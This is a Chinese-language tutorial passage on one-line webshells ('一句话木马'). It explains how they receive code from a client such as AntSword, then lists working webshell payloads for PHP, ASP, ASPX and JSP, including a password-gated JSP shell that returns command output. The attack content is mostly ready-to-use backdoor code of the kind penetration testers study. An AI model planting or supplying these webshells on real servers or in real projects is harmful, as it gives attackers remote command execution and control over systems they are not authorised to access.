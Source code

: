 一句话木马：短小精悍、功能强大、隐蔽性好、使用客户端可以快速管理 WebShell。

小马拉大马这个阶段使用的木马都是将功能函数写死在木马文件中，然后执行固定的功能，而一句话木马的原理则是在服务端就一句话，然后使用蚁剑等客户端通过发送功能函数到服务端，服务端将功能函数进行执行并将结果返回给客户端，然后解析并显示结果，这就是这两种阶段的核心区别。

- 按照脚本编写语言分类，可以分为 PHP(文件后缀.php)、ASP(文件后缀.asp)、JSP(文件后缀.jsp)、ASP.NET(文件后缀.aspx)、PYTHON(文件后缀.py)、CGI(文件后缀.pl .cgi)等

常见的基础的一句话木马如下：

php

```php
<?php @eval($_POST['password']);?>
```

asp

```asp
<%execute request("password")%>
```

aspx

```aspx
<%@ Page Language="Jscript"%><%eval(Request.Item["password"],"unsafe");%>
```

jsp 无回显

```jsp
<%Runtime.getRuntime().exec(request.getParameter("password"));%>
```

jsp 有回显

```jsp
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("password")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

## WebShell 管理工具

### 1. 蚁剑(AntSword)

AntSword 是一个开放源代码，跨平台的网站管理工具，旨在满足渗透测试人员以及有授权的安全研究人员以及网站管理员的需求。

github 项目地址：https://github.com/AntSwordProject/antSword
